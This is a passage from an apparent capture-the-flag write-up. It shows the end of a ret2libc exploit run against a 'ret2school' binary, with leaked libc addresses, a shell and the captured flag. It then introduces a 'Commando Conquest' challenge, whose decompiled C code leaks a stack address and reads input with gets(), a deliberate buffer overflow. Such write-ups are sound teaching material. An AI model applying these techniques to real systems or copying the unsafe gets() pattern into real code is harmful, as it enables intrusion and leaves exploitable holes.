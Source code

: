```python
io.interactive()
```
{: .nolineno file="exploit.py" }

which gives shell on the server
```bash
$ python3 exploit.py
[*] Loaded 14 cached gadgets for './ret2school'
[+] printf: 0x7fb6c7e7de40
[+] libc: 0x7fb6c7e19000
[*] Loaded 199 cached gadgets for './libc.so.6'
[*] Switching to interactive mode
$ cat flag
cvctf{ret2libc_bfbfa238da098120}
```
{: .nolineno }

Although there were some stack-misalignment which were not expected (2 occurrences in the 1st payload) I managed to first-blood this challenge

![First Blood](blood.png)


## Commando Conquest
> Difficulty: Medium
>
> Background Story
>
> You enter the room and see a single PC on a desk, humming quietly. You know that you need to gain shell access to proceed, but it won't be easy.
>
> The PC is protected by a series of sophisticated security measures, and you'll need to use all of your skills to bypass them. You pull up a chair and start working on the task at hand. As you type away at the keyboard, the screen flickers to life, displaying a command prompt.
>
> The real challenge is yet to come. The HoYoverse security team is surely on high alert, and you'll need to stay one step ahead if you want to make it out with the information you need. Conquer the shell prompt and uncover the final secret.
>
> Files: shellprompt

This challenge were part 4 of a 5-part story, where the other challenges were in other categories than pwn.

This is a type of challenge which I have not written a writeup for yet! The reversed form of the binary looks like this
```c
void shell(void){
  char input [132];
  printf("Backdoor secret: %p\n",input);
  printf("Execute: ");
  gets(input);
  return;
}

int main(void){
  EVP_PKEY_CTX *in_stack_fffffff0;
  init(in_stack_fffffff0);
  shell();
  return 0;
}
```
